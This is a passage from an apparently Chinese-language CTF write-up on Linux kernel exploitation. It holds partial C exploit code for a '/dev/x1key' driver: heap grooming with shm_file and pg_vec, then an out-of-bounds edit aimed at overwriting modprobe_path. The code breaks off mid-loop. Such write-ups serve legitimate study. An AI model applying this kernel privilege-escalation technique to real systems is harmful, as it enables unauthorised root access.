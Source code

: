 因此，自然堆上也有`modprobe_path`，因此`partial write`写堆地址到`modprobe_path`即可。



`exp`如下：

```c
#include "ltfallkernel.h"

#define ADD 0x101
#define EDIT 0x102

int dev_fd;

struct request
{
    unsigned int index;
    unsigned int content;
};

void add()
{
    struct request t = {
        .index = 0,
        .content = 0,
    };
    ioctl(dev_fd, ADD, &t);
}

void edit(unsigned int index, unsigned int content)
{
    struct request t = {
        .index = index,
        .content = content,
    };
    ioctl(dev_fd, EDIT, &t);
}

int main()
{
    unshare_setup();

    info("Starting to exploit...");
    dev_fd = open("/dev/x1key", O_RDWR);
    if (dev_fd < 0)
    {
        err_exit("Failed to open x1key...");
    }

    // 先分配shm_file结构体，这个结构体本身是什么并不重要，只是它为0x20
    int shm_fd = shmget(IPC_PRIVATE, 0x1000, IPC_CREAT | 0666);
    char *shm_ptr = shmat(shm_fd, NULL, SHM_RDONLY);

    // 分配题目obj
    add();

    // 释放shm_file结构体
    shmdt(shm_ptr);

    // 随后再占据为pg_vec
    int nr = 0x20 / 8;
    int packet_fd = alloc_pgv(nr, 0x1000);

    // 即可使用 edit 来上溢出
    char *modprobe_path = NULL;
    for (int i = 0; i < 0x80; i++)
```